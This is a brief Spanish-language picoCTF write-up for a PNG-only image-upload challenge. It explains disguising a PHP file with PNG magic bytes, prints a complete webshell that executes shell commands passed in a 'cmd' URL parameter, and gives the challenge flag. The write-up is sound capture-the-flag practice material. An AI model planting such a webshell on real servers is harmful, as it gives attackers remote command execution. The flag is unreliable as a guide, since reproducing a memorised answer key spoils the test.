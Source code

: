 
### Descripción 
I found a web app that can help process images: PNG images only!Try it [here](http://atlas.picoctf.net:55456/)!
### Solución
Tenemos que crackear una pagina web subiendo una imagen con extensión png, creamos un webshell php para crackear la pagina, cambiamos los bytes magicos del webshell, ese archivo lo subimos y comenzamos a navegar entre paginas
para encontrar la bandera
	PNG
	<?php
	if (isset($_GET['cmd'])) {
	    echo "<pre>";
	    system($_GET['cmd']);
	    echo "</pre>";
	} else {
	    echo "Usa ?cmd=COMANDO en la URL.";
	}
	?>
Solución: **picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9}**
### Notas adicionales


### Referencias 
https://www.youtube.com/watch?v=co8MZmviC1U&list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&index=65
